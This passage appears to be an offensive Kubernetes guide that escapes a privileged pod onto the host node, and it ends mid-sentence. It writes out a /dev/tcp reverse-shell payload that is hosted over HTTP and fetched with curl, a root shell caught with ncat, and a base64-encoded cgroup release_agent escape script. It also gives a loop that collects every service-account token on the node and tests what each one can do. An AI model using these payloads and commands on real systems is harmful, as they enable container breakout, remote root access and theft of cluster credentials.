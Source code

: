 #### Create a payload and host it on your remote box
```bash
echo "0<&209-;exec 209<>/dev/tcp/10.0.0.127/4444;sh <&209 >&209 2>&209" > rshell.sh
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
#### Use undock.sh to download the script to the host and then execute it in the context of the host
```bash
root@pod-priv:/# sh undock.sh "curl -sL http://10.0.0.127:8000/rshell.sh -o /tmp/rshell.sh"
root@pod-priv:/# sh undock.sh "bash -c /tmp/rshell.sh"
```

#### Catch the shell, do some damage
```bash
ncat --ssl -vlp 4444
listening on [any] 4444 ...
connect to [10.0.0.127] from (UNKNOWN) [10.0.0.162] 48572
id
uid=0(root) gid=0(root) groups=0(root)
hostname
k8s-worker
```


### Grab all tokens from all pods on the system

You can access any secret mounted within any pod on the node you are on. In a production cluster, even on a worker node, there is usually at least one pod that has a mounted *token* that is bound to a *service account* that is bound to a *clusterrolebinding*, that gives you access to do things like create pods or view secrets in all namespaces. Look for tokens that have permissions to get secrets in kube-system. 

The examples below automate this process for you a bit:

**If you haven't already, drop the undock.sh script into on your pod.** 

The file will be at /undock.sh and is needed to make the next examples work from outside the pod using `kubectl exec`.: 
```
kubectl exec -it priv-exec-pod -- bash -c "echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > /undock.sh" 
```

**Run kubectl can-i --list against ALL tokens found on the node**

*Run this where you have kubectl installed and NOT from within the priv pod.*
*Make sure you already dropped undock.sh to the pod* 
```
tokens=`kubectl exec -it priv-exec-pod -- sh undock.sh """find /var/lib/kubelet/pods/ -name token -type l"""`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it priv-exec-pod -- sh undock.sh "cat $filename_clean"`; \
echo -n "What can I do? "; \
SERVER=`kubectl config view --minify --flatten -ojsonpath='{.clusters[].cluster.server}'`; \
export KUBECONFIG="dummy"; \
kubectl --server=$SERVER --insecure-skip-tls-verify --token=$tokena auth can-i --list; echo; echo; echo; \
unset KUBECONFIG; \
done
```
This is what just happened: